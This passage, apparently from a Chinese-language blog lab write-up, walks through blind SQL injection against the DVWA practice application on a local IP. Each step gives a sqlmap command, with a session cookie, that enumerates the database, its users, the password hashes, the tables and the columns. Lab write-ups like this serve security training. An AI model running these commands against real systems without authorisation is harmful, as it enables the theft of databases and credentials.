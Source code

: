 

![15](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124714.png)

**查询当前数据库**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --current-db
```

![16](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124716.png)



**列出数据库中的所有用户**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --users
```

![17](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124718.png)



**获取Web应用当前所操作的用户**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --current-user
```

![18](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124721.png)



**列出可连接数据库的所有账户-对应的密码哈希**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --passwords
```

![19](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124722.png)



**列出指定数据库中的所有数据表**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa –tables
```

![20](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124725.png)



**列出指定数据表中的所有字段（列）**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa -T users --columns
```
